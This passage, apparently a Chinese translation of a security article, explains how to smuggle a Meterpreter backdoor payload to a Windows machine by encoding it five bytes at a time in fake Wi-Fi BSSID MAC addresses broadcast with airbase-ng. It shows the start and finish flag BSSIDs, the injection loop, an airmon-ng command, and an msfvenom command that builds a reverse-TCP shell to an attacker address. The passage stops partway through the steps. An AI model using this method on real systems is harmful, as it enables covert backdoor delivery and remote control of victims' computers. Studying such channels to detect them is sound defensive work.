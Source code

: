 102 * 5 = 510字节

注意：每个BSSID包含5个字节的有效载荷。

```
BSSID = 00：fc：48：83：e4：f0
```

`{`5字节`}` ==&gt; fc-48-83-e4-f0

在这种情况下，应将两个BSSID MAC地址添加到script1.sh文件。

如图A所示，我的脚本在第2行有MAC地址00：ff：ff：ff：ff：ff，这个Mac地址或BSSID是启动攻击和传输流量到被感染系统的标志，再如图B所示，此文件应该以BSSID `{`00：ff：00：ff：00：ff`}`结束。



```
BSSID Flag for Start  =  00:ff:ff:ff:ff:ff
BSSID Flag for Finish = 00:ff:00:ff:00:ff
```

BSSID注入循环：改变BSSID（102 + 2）= 104次。

[![](https://p4.ssl.qhimg.com/t01351b470defc57f2d.png)](https://p4.ssl.qhimg.com/t01351b470defc57f2d.png)

图B

如图C所示，可以看到第二个脚本script2.sh文件，在这个文件中可以使用循环命令，例如（For）。

[![](https://p5.ssl.qhimg.com/t016de043bf3535ad0b.png)](https://p5.ssl.qhimg.com/t016de043bf3535ad0b.png)

图C

在 “script2.sh” 文件中，应该至少kill airbase-ng 104次。

<br>

**具体分析**

接下来我要通过我的工具（NativePayload_BSSID.exe）来逐步分析这个方法：

步骤如下：

**步骤0：**创建Wlan0mon（监控模式）。

语法：airmon-ng start wlan0

[![](https://p2.ssl.qhimg.com/t018fdeaf9805e7c342.png)](https://p2.ssl.qhimg.com/t018fdeaf9805e7c342.png)

**步骤1：**使用以下命令生成一个后门有效载荷：

```
msfvenom -a x86_64 --platform windows -p windows / x64 / meterpreter / reverse_tcp lhost = 192.168.1.50 -f c&gt; payload.txt
```

**步骤2：**在payload.txt文件中将有效载荷的格式从“ xfc  x48  x83  xe4”替换为“fc4883e4”。

可以使用这个工具的 “帮助”显示所有的语法，如图1所示：
